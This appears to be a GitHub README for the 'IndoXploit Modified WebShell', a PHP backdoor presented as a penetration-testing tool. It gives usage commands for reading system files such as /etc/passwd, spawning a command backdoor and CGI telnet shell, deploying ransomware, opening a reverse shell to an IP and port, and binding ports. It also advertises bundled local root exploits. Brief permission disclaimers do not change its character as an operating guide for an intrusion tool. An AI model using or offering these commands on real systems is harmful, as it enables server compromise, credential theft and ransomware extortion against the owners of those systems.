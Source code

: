# IndoXploit Modified WebShell: A Comprehensive Guide

**IndoXploit Modified WebShell** is a powerful tool designed for advanced web management and penetration testing. This guide will walk you through its features, commands, and practical usage. 🚀

---

## 📌 What is IndoXploit Modified WebShell?

The IndoXploit Modified WebShell is a web-based shell ability that allows users to execute commands, manage files, and perform various tasks on a server. It is commonly used by cybersecurity professionals for testing and managing web servers. However, **it should be used responsibly and only on systems you own or have explicit permission to test.** 🔐

---

## ⚙️ Key Features

- **File Management**: Read, create, and manage files on the server. 📂
- **Reverse Shell**: Establish a backdoor connection to the server. 🔄
- **Exploitation Abilities**: Includes local root exploits, ransomware, and more. 💥
- **System Information**: Retrieve PHP version, file system details, and more. 🖥️
- **Custom Commands**: Execute various pre-defined commands for specific tasks. 🧑‍💻

---

## 📝 How to Use IndoXploit Modified WebShell

Below is a step-by-step guide on how to use the IndoXploit WebShell effectively:

---

### 1. Reading Files 📖

To read a file, use the following command:

```bash
rf [filename]
```

Example:

```bash
rf /etc/passwd
```

---

### 2. Spawning Files 🔨

Use the `spawn` command to create various types of files or execute backdoor commands:

- `spawn webconsole` – Execute command backdoor.
- `spawn cgitelnet1` – CGI Telnet Shell 1.
- `spawn rans` – Deploy ransomware.
- `spawn phpinfo` – Retrieve PHP system information.

---

### 3. Reverse Shell (Backconnect) 🔁

To establish a reverse shell connection, use the following syntax:

```bash
rvr bc [IP] [PORT] [TYPE]
```

Example:

```bash
rvr bc 127.0.0.1 1337 bash
```

---

### 4. Binding Ports 🔒

To bind a port, use the following syntax:

```bash
rvr bp [PORT] [TYPE]
```

Example:

```bash
rvr bp 1337 perl
```

---

### 5. Logging Out 🚪

To log out from the shell, use the command:

```bash
logout
```

---

## ⚠️ Best Practices and Warnings

While using the IndoXploit WebShell, keep the following in mind:

- Always use this ability responsibly and **only on systems you have permission to access**.
- Ensure your activities comply with local laws and regulations. ⚖️
- Regularly update your abilities to avoid vulnerabilities. 🔐

---

## 📚 Conclusion

The IndoXploit Modified WebShell is a versatile tool for **web server management and penetration testing**. By following this guide, you can effectively utilize its features while adhering to ethical practices. 🌐

---

## 🚨 Warning

This tool should **ONLY** be used in environments where you have **explicit permission**. Unauthorized access or testing can be illegal and unethical.

---


### 💬 Feedback and Contributions

Feel free to fork, contribute, or open issues in the repository! 🔄  
For further queries, you can reach out via [help@r00t-shell.com](mailto:help@r00t-shell.com).
